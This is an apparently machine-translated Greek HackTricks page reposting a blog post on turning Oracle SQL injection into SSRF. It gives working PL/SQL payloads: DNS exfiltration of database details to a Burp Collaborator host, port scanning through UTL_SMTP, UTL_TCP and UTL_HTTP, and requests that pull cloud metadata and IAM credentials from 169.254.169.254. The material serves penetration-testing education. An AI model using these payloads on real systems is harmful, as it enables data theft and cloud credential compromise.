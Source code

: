 # Oracle injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Σερβίρετε αυτή την ανάρτηση μια αντίγραφο από το wayback machine της διαγραμμένης ανάρτησης από [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Η χρήση του Oracle για να κάνετε Out of Band HTTP και DNS αιτήματα είναι καλά τεκμηριωμένη, αλλά ως μέσο εξαγωγής SQL δεδομένων σε επιθέσεις. Μπορούμε πάντα να τροποποιήσουμε αυτές τις τεχνικές/λειτουργίες για να κάνουμε άλλες SSRF/XSPA.

Η εγκατάσταση του Oracle μπορεί να είναι πραγματικά επώδυνη, ειδικά αν θέλετε να ρυθμίσετε μια γρήγορη εγκατάσταση για να δοκιμάσετε εντολές. Ο φίλος και συνάδελφός μου στην [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), μου υπέδειξε το [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) που μου επέτρεψε να ρυθμίσω μια εγκατάσταση σε μια t2.large AWS Ubuntu μηχανή και Docker.

Εκτέλεσα την εντολή docker με την επιλογή `--network="host"` ώστε να μπορώ να μιμηθώ τον Oracle ως εγγενή εγκατάσταση με πλήρη πρόσβαση στο δίκτυο, κατά τη διάρκεια αυτής της ανάρτησης.
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### Oracle packages that support a URL or a Hostname/Port Number specification <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

Για να βρω οποιαδήποτε πακέτα και συναρτήσεις που υποστηρίζουν μια διεύθυνση και αριθμό θύρας, έκανα μια αναζήτηση στο Google στην [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Συγκεκριμένα,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
Η αναζήτηση επέστρεψε τα εξής αποτελέσματα (όχι όλα μπορούν να χρησιμοποιηθούν για την εκτέλεση εξωτερικού δικτύου)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

Αυτή η πρόχειρη αναζήτηση προφανώς παραλείπει πακέτα όπως το `DBMS_LDAP` (το οποίο επιτρέπει τη μεταφορά ενός ονόματος κεντρικού υπολογιστή και αριθμού θύρας) καθώς η [σελίδα τεκμηρίωσης](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) σας παραπέμπει απλώς σε μια [διαφορετική τοποθεσία](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Επομένως, μπορεί να υπάρχουν άλλα πακέτα Oracle που μπορούν να καταχραστούν για να γίνουν εξωτερικά αιτήματα που μπορεί να έχω παραλείψει.

Σε κάθε περίπτωση, ας ρίξουμε μια ματιά σε μερικά από τα πακέτα που έχουμε ανακαλύψει και καταγράψει παραπάνω.

**DBMS\_LDAP.INIT**

Το πακέτο `DBMS_LDAP` επιτρέπει την πρόσβαση σε δεδομένα από διακομιστές LDAP. Η συνάρτηση `init()` αρχικοποιεί μια συνεδρία με έναν διακομιστή LDAP και παίρνει ένα όνομα κεντρικού υπολογιστή και αριθμό θύρας ως παράμετρο.

Αυτή η συνάρτηση έχει τεκμηριωθεί προηγουμένως για να δείξει την εξαγωγή δεδομένων μέσω DNS, όπως παρακάτω
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
Ωστόσο, δεδομένου ότι η συνάρτηση δέχεται ένα όνομα κεντρικού υπολογιστή και έναν αριθμό θύρας ως παραμέτρους, μπορείτε να το χρησιμοποιήσετε για να λειτουργήσει και ως σαρωτής θυρών.

Ακολουθούν μερικά παραδείγματα
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
Ένα `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` δείχνει ότι η θύρα είναι κλειστή ενώ μια τιμή συνεδρίας δείχνει ότι η θύρα είναι ανοιχτή.

**UTL\_SMTP**

Το πακέτο `UTL_SMTP` έχει σχεδιαστεί για την αποστολή email μέσω SMTP. Το παράδειγμα που παρέχεται στον [ιστότοπο τεκμηρίωσης της Oracle δείχνει πώς μπορείτε να χρησιμοποιήσετε αυτό το πακέτο για να στείλετε ένα email](https://docs.oracle.com/database/121/ARPLS/u_smtp.htm#ARPLS71478). Για εμάς, ωστόσο, το ενδιαφέρον είναι η δυνατότητα παροχής προδιαγραφών host και θύρας.

Ένα πρόχειρο παράδειγμα φαίνεται παρακάτω με τη λειτουργία `UTL_SMTP.OPEN_CONNECTION`, με χρονικό όριο 2 δευτερολέπτων.
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
Ένα `ORA-29276: transfer timeout` δείχνει ότι η θύρα είναι ανοιχτή αλλά δεν έχει καθοριστεί καμία σύνδεση SMTP, ενώ ένα `ORA-29278: SMTP transient error: 421 Service not available` δείχνει ότι η θύρα είναι κλειστή.

**UTL\_TCP**

Το πακέτο `UTL_TCP` και οι διαδικασίες και συναρτήσεις του επιτρέπουν [TCP/IP βασισμένη επικοινωνία με υπηρεσίες](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Εάν προγραμματιστεί για μια συγκεκριμένη υπηρεσία, αυτό το πακέτο μπορεί εύκολα να γίνει ένας τρόπος εισόδου στο δίκτυο ή να εκτελέσει πλήρεις Αιτήσεις Από την Πλευρά του Διακομιστή, καθώς όλες οι πτυχές μιας σύνδεσης TCP/IP μπορούν να ελεγχθούν.

Το παράδειγμα [στην ιστοσελίδα τεκμηρίωσης της Oracle δείχνει πώς μπορείτε να χρησιμοποιήσετε αυτό το πακέτο για να κάνετε μια ακατέργαστη σύνδεση TCP για να ανακτήσετε μια ιστοσελίδα](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). Μπορούμε να το απλοποιήσουμε λίγο περισσότερο και να το χρησιμοποιήσουμε για να κάνουμε αιτήσεις στην περίπτωση μεταδεδομένων για παράδειγμα ή σε μια αυθαίρετη υπηρεσία TCP/IP.
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
Ενδιαφέρον είναι ότι, λόγω της ικανότητας να δημιουργούνται ακατέργαστα αιτήματα TCP, αυτό το πακέτο μπορεί επίσης να χρησιμοποιηθεί για να ερωτήσει την υπηρεσία μεταδεδομένων της Instance όλων των παρόχων cloud, καθώς ο τύπος μεθόδου και οι επιπλέον κεφαλίδες μπορούν να περαστούν όλα μέσα στο αίτημα TCP.

**UTL\_HTTP και Ιστοσελίδες Αιτημάτων**

Ίσως η πιο κοινή και ευρέως τεκμηριωμένη τεχνική σε κάθε tutorial Oracle SQL Injection εκτός ζώνης είναι το [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070). Αυτό το πακέτο ορίζεται από την τεκμηρίωση ως - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Μπορείτε επιπλέον να χρησιμοποιήσετε αυτό για να εκτελέσετε μερικές στοιχειώδεις σάρωσεις θυρών καθώς και με ερωτήματα όπως
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
Ένα `ORA-12541: TNS:no listener` ή ένα `TNS:operation timed out` είναι σημάδι ότι η θύρα TCP είναι κλειστή, ενώ ένα `ORA-29263: HTTP protocol error` ή δεδομένα είναι σημάδι ότι η θύρα είναι ανοιχτή.

Ένα άλλο πακέτο που έχω χρησιμοποιήσει στο παρελθόν με ποικίλη επιτυχία είναι η [`GETCLOB()` μέθοδος του `HTTPURITYPE` Oracle abstract type](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705) που σας επιτρέπει να αλληλεπιδράτε με μια διεύθυνση URL και παρέχει υποστήριξη για το πρωτόκολλο HTTP. Η μέθοδος `GETCLOB()` χρησιμοποιείται για να ανακτήσει την απόκριση GET από μια διεύθυνση URL ως [τύπο δεδομένων CLOB.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
